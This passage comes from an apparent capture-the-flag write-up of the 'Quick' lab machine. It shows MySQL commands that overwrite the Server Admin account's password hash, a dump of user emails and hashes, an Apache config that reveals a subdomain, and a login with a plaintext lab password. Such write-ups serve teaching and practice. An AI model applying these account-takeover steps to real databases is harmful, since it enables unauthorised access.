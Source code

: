This is the source file of `login.php` which we used to login as `elisa` and here we can see, same salt `fa`

Logged back to database and changed the password of `srvadm`

```php
mysql> UPDATE users
UPDATE users
    -> SET password = 'c6c35ae1f3cb19438e0199cfa72a9d9d'
SET password = 'c6c35ae1f3cb19438e0199cfa72a9d9d'
    -> WHERE name  = 'Server Admin';
WHERE name  = 'Server Admin';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | c6c35ae1f3cb19438e0199cfa72a9d9d |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

So the question is where we gonna use it.

I looked at `apache2` config files we get to know a subdomain.

```
sam@quick:/etc/apache2/sites-available$ cat 000-default.conf 
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
<VirtualHost *:80>
	AssignUserId srvadm srvadm
	ServerName printerv2.quick.htb
	DocumentRoot /var/www/printer
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```

So I added that in `/etc/hosts` and I logged in with `srvadm@quick.htb : Quick4cc3$$`
